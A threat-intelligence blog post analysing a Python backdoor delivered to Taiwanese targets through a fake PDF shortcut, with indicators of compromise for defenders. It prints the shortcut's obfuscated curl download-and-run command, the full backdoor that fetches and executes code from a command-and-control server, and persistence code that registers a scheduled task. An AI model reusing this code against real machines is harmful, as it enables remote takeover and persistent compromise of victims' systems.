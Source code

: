 ```yaml
---
title: Python Backdoor Uploaded from Taiwan
by: dmpdump
tags: cti malware python
---
```


On April 18, 2025, I came across an interesting LNK file uploaded from Taiwan (f4bb263eb03240c1d779a00e1e39d3374c93d909d358691ca5386387d06be472), which I subsequently found had been initially discovered by [@NtAlertThread](https://x.com/ElementalX2/status/1913247237771083802). Props to him for the discovery.
The LNK file in question is named `2025416-方案1-方案細節.pdf.lnk`, which translates to `2025416-Scheme 1-Scheme details.pdf.lnk`. The file was uploaded from Taiwan on April 18, 2025.

![sshot](/assets/images/bdoor_tw/vt.png)

 This shortcut file is a simple curl downloader for a next stage executable. The executable, named `setup.exe`, is downloaded from `mail[.]9kyd.com/skins` to `C:\Users\Public\Downloads`.

```batch
/c ^c^u^r^l https://mail[.]9kyd.com/skins/setup.exe -o C:\Users\Public\Downloads\setup.exe && (^s^t^a^r^t /^B C:\Users\Public\Downloads\setup.exe)
```
According to the LNK metadata, it was created on a machine named `desktop-8g6b11u` on April 13, 2025.

![sshot](/assets/images/bdoor_tw/lnk_meta.png)

`Setup.exe` (4e256572e001b76872074878f8ecd2be3f237c9b3a18d0059e2f4a3888579b5b) is an installer created with Indigo Rose Software Setup Factory. In the past, I saw multiple Gh0stRAT samples targeting Chinese-speaking users using this installer. Indigo Rose's Setup Factory supports Lua scripting to configure the installation process.

![sshot](/assets/images/bdoor_tw/indigo.png)

Upon execution, the installer drops files to `C:\Users\%USER%\AppData\Roaming\AcrobatReader\`, including the Python runtime environment and a decoy PDF. The installer opens the decoy PDF, named `document.pdf`, which contains illegible content, and runs a python script named `setup.py`.

Excerpt from the PDF content:

![sshot](/assets/images/bdoor_tw/pdf.png)

Dropped files:

![sshot](/assets/images/bdoor_tw/dropped.png)


# Backdoor

The `setup.py` script is a very simple backdoor that uses Cloudflare Workers as command and control infrastructure. The backdoor:
* Runs a continuous loop with a delay which starts a new thread and runs the `mythread()` function
* Makes a request to the C2 `eip.netask.workers[.]dev` and reads the response
* Checks if the response is GZIP-compressed. If it is, it decompresses it
* It converts the response to UTF-8
* If the length of the response is longer than 2 characters, it base64-decodes it and executes it, skipping the first 2 characters

```python
#!/usr/bin/env python
#
# Hi There!
#
# You may be wondering what this giant blob of binary data here is, you might
# even be worried that we're up to something nefarious (good for you for being
# paranoid!). This is a base85 encoding of a zip file, this zip file contains
# an entire copy of pip (version 24.0).
#
# Pip is a thing that installs packages, pip itself is a package that someone
# might want to install, especially if they're looking to run this get-pip.py
# script. Pip has a lot of code to deal with the security of installing
# packages, various edge cases on various platforms, and other such sort of
# "tribal knowledge" that has been encoded in its code base. Because of this
# we basically include an entire copy of pip inside this blob. We do this
# because the alternatives are attempt to implement a "minipip" that probably
# doesn't do things correctly and has weird edge cases, or compress pip itself
# down into a single file.
#
# If you're wondering how this is created, it is generated using
# `scripts/generate.py` in https://github.com/pypa/get-pip.

import copy
import datetime
import html
import http.client
import io
import mimetypes
import os
import posixpath
import select
import shutil
import sys,time,_thread,urllib.request,base64,random
total, used, free = shutil.disk_usage("/")
sid = str(total%9999)

stime=60
url = "hxxps://eip.netask.workers[.]dev/"
hdr = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
	'Accept-Language':'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
	'Accept-Encoding':'gzip, deflate, identity',
	'Session':sid,
	'DNT':'1',
	'Cookie':'',
	'Sec-Fetch-Dest':'empty',
	'Sec-Fetch-Mode':'cors',
	'Sec-Fetch-Site':'same-origin'
}

def mythread(axcs):
	print('mythread...')
	try:
		hdr['Cookie']=''
		req = urllib.request.Request(url, headers=hdr)
		response = urllib.request.urlopen(req)
		
		rsph = response.info()
		if ('Content-Encoding' in rsph and rsph['Content-Encoding'] == 'gzip') or ('content-encoding' in rsph and rsph['content-encoding'] == 'gzip'):
			import gzip
			content = gzip.decompress(response.read())
		else:
			content = response.read()
		html = content.decode('utf-8').strip()
		if len(html) > 2:
			exec(base64.b64decode(html[2:]).decode())
	except Exception as ex:
		print(ex)

try:
	while True:
		print('...:',stime)
		i = 0
		while i < stime:
			time.sleep(1)
			i = i + 1
		_thread.start_new_thread( mythread, (1, ) )
except:
	pass

```
In order to get additional payload without executing it, I modified the `mythread()` function to write the payload to disk instead of executing it:

```python
 rsph = response.info()
        if ('Content-Encoding' in rsph and rsph['Content-Encoding'] == 'gzip') or ('content-encoding' in rsph and rsph['content-encoding'] == 'gzip'):
            import gzip
            content = gzip.decompress(response.read())
        else:
            content = response.read()
        content_text = content.decode('utf-8').strip()  
        if len(content_text) > 2:
            payload = base64.b64decode(content_text[2:])
            timestamp = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
            filename = f"payload_{timestamp}.bin"
            with open(filename, "wb") as f:
                f.write(payload)
            print(f"Payload saved to {filename}")
```

After some initial requests without any reponses, I obtained two payloads:

![sshot](/assets/images/bdoor_tw/response.png)

The first payload I received is a Python script which creates a Visual Basic persistence script named `start.vbs`. The script searches for the running processes, if it finds that python.exe is running, it exits. If it is not running, it runs the initial setup.py (the backdoor) with python.exe. Additionally, it creates a scheduled task named `TaskMachineCore`, which runs every 10 minutes, executing the newly created `start.vbs` persistence script.
S
```python
pwd = os.path.abspath(os.path.dirname(__file__))
fvb2 = pwd+'\\start.vbs'
fp=open(fvb2,'w')
fp.write('''set ii = getobject("winmgmts:win32_process").instances_
for each p in ii
if p.name = "python.exe" then
WScript.Quit
end if
next
''')
fp.write('CreateObject("WScript.Shell").Run "'+pwd+"\\python.exe "+pwd+"\\setup.py"+'",0')
fp.close()

name = os.path.abspath(os.path.dirname(__file__))
os.system('Schtasks /create /tn TaskMachineCore /tr '+fvb2+' /sc MINUTE /mo 10 /F')
```
The second payload simply modifies the sleep time of the backdoor through the modification of the `stime` variable, changing it from the default value of 60 seconds (1 minute) to 3600 (one hour).

```python
global stime
stime=3600
```

# IOCs
* 2025416-方案1-方案細節.pdf.lnk: f4bb263eb03240c1d779a00e1e39d3374c93d909d358691ca5386387d06be472
* Payload hosting site: mail[.]9kyd.com/skins
* Setup.exe: 4e256572e001b76872074878f8ecd2be3f237c9b3a18d0059e2f4a3888579b5b
* Setup.py: 6721f5c45548b75af91526bf0afc83dd0017572453e3a37bd95b8b6ac98b9746
* C2: https://eip.netask.workers[.]dev:443